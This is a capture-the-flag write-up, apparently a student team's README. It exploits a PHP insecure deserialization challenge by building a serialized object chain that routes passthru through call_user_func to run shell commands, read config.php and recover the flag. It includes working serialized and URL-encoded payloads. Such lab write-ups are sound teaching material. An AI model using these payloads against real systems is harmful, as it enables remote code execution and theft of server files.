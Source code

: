 # CTF Challenge with Group ✔
- **Insecure Deserialization**:<br>
- **Note:** CTF Challenge in Secure Programming and Exploiting Vulnerabilities subject<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Enter link, we see a PHP code
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- There are 3 main classes:  `User`, `Show_color` and `do_nothing`<br>
- The "main" code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
That code above will get the value of `code` in URL through `$_GET[]` and `unserialize` the variable `code` . In case `code` is **null** then show the code like being - `highlight_file(__FILE__);`.There are two another function `__construct()` và `__destruct()` and this is the good case for **insecure deserialization** with `unserialize` has no verify-input job so we can take advantage of this to exploit
- We notice that `User` class seems strange when a line shows  `admin=false`and when `admin=true` then print `"hi admin, here is your flag"`. So we trying to serialize the `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Serialized string: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Change the value `admin` into `true`-> Change `b:0` into `b:1`. Give this to `$code` in URL: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
We only see a blank page and nothing special with source code (Ctrl + U)
- According to next 2 classes, they're likely to be vulnerable cause in class `Show_color`, it uses `call_user_func()`. With this, we can execute our desired command with the first parameter is the function, the second one is the parameter for the precede function. For more details, see [here](https://www.php.net/manual/en/function.call-user-func). Considering some functions that allow us to **execute shell**: `exec()`, `shell_exec()`, `system()`, `passthru()`, which `system()` and `passthru()` are the best use cases (as I think) cause it's easy to use.
- Next, we think how to put that **excute shell** in classes's methods. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- As recommendation,  `passthru()` is passed into first parameter and `ls` will be the second. But the problem here, with second one we can transfer `ls` into `$color`through **constructor** but can not transfer `passthru` into the first cause its operation `$this->type->adu`, we have to manage to set `$this-type` as an object and `adu` would be the member or method.
- Take a look at `do_nothing`class, there is a fucntion `__get()`.This is one of [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) to override the reserved function by PHP. `__get()` take a parameter as a member or method. In the code, function `__get()` return  `this ->i_use_this` when  `this->why` is not empty. 
### Solution:
- Create instance  `do_nothing` with 2 parameters `123` (Optional value)  and `passthru`. 
- Create instance`Show_color` with 2 parameters **do_nothing object** above and the command we want to execute ex. `ls`. 
- Sau đó `serialize` đối tượng  `Show_color`
**Sample**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Output:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Send to  var `code` and send request to reload page <br>

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138675519-6fc911d4-823a-405a-b6f8-a74da4e05dec.png">
</p>

- There are 2 files. The command was executed successfully, we can review the logic flow as the following: Take a deep in the line `call_user_func($this->type->adu,$this->color);`. `$this->type` will become `$a`, means it will operate this `call_user_func($a->adu,$this->color);`. How about `$a->adu` was processed? Back again in `__get($method)` . And `$method` here is `adu`, this `$method` is actually do nothing, `$this->why` is set **null** to run the **block code** inside `return $this->i_use_this;` , it's equivalent to `return passthru($command)` with **$command** we have set above - `ls`.
- Afterthat, we try read file `config.php` first. Change `ls` into `cat config.php` , serialize again and do the similar with all the step above
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Seem not work? We take a consideration the variable we handle when manipulate all the value through URL, which will be affected by **URL Encode**. So in `cat index.php` it was the "space" in the string that will be encoded. For working properly, we should encode the payload

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Blank page, check the source code.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
